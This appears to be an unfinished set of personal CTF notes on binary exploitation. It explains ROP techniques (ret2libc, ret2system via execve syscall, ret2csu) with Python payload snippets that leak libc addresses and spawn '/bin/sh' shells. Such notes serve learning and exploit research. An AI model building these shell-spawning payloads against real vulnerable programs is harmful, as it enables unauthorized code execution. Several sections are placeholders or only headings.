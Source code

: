 
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>


```
		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

		```	
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function

```
</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				










```
</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)
```
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		POPGADGET:

		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		rbx,rbp,r12,r13,r14,r15
		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		CALLGADGET:
		```                	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		there ase some constrains in the caller gadget 
		# 1.
		we want to pass the JNE and dont take it.
		```
		rbx = 0x00 set to 0 since it will be incremented later
		rbp = set to 1 so when compared to the incremented rbx 
		```
			```
			__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
       		```
        # 2
        we want to set r15 = to a valide function 






   	```
	putsgot = elf.got['puts']          
    putsplt = elf.plt['puts']
    pop_rdi = 0x00000000004011f3
    pop_rsi_r15 = 0x00000000004011f1
    ret = 0x4004e6

	def ret2csu(call,rdi,rsi,rdx):
        payload = p64(0x4011ea)         # first call popper gadget

        payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
        payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
        payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
        payload += p64(rsi)            # pop r13 #rsi
        payload += p64(rdx)            # pop r14 #rdx
        payload += p64(putsgot)            # pop r15 

        payload += p64(0x4011d0)        # 2nd call caller gadget

            #__libc_csu_init+64     MOV        RDX,R14
            #__libc_csu_init+67     MOV        RSI,R13
            #__libc_csu_init+70     MOV        EDI,R12D

        payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


            #__libc_csu_init+90     POP        RBX
            #__libc_csu_init+91     POP        RBP
            #__libc_csu_init+92     POP        R12
            #__libc_csu_init+94     POP        R13
            #__libc_csu_init+96     POP        R14
            #__libc_csu_init+98     POP        R15
            #__libc_csu_init+100    RET

        payload += p64(0x00)            # rbx
        payload += p64(0x00)            # rbp
        payload += p64(0x00)            # r12
        payload += p64(0x00)            # r13
        payload += p64(0x00)            # r14
        payload += p64(0x00)            # r15

            #__libc_csu_init+100    RET

        payload += p64(pop_rdi)        
        payload += p64(rdi)             # update rdi with correct unconstrained content
        payload += p64(pop_rsi_r15)     
        payload += p64(rsi)             # update rsi with correct unconstrained content
        payload += p64(0x00)

            #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

        payload += p64(call)            # actual wanted function call
        return payload

        rop = b'A'*16
        rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)


	```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)



```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>






# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
